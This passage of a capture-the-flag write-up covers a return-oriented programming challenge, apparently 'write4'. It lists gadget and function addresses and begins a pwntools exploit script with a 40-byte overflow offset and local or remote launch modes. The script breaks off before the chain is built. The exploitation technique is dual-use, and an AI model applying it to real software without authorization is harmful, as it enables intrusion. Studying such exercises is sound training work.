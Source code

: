 It was also able to locate a `pop rdi; ret;` gadget which is needed for passing the argument to the `print_file()` function, located at `0x0000000000400693`.

**Address of the MOV Gadget:** `0x0000000000400628`

**Address of the POP Gadget:** `0x0000000000400690`

**Address of the POP RDI; RET Gadget:** `0x0000000000400693`

### Step 4: Writing the Exploit
Again, I wrote 3 exploits. A pwntools exploit script, a one-line Python2 exploit, and a one-line Python3 exploit.

#### Key Addresses:
- **Address of the .data Section:** `0x0000000000601028`
- **Address of the print_file() Function:** `0x0000000000400510`
- **Address of the MOV Gadget:** `0x0000000000400628`
- **Address of the POP Gadget:** `0x0000000000400690`
- **Address of the POP RDI; RET; Gadget:** `0x0000000000400693`

#### The Pwntools Exploit
```
#!/usr/bin/env python3

from pwn import *

# Set the binary context to the local binary
context.binary = binary = ELF("./write4", checksec=False)
context.log_level = "CRITICAL"

# Get the LIBC used for the binary
libc = binary.libc

gdb_script = """
continue
"""

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(args.HOST or exit("[!] Provide a Remote IP."), int(args.PORT or exit("[!] Provide a Remote Port.")))

    elif args.GDB:
        return gdb.debug([binary.path] + argv, gdbscript=gdb_script, *a, **kw)

    else:
        return process([binary.path] + argv, *a, **kw)

offset = 40
buffer = b"A"*offset

# Address of the .data section
data_addr = p64(0x0000000000601028)

# Address of the print_file() function
print_file = p64(binary.plt["print_file"])

# Address of the MOV gadget
mov_gadget = p64(0x0000000000400628)

# Address of the POP gadget
pop_gadget = p64(0x0000000000400690)

# Address of the POP RDI gadget
pop_rdi = p64(0x0000000000400693)
```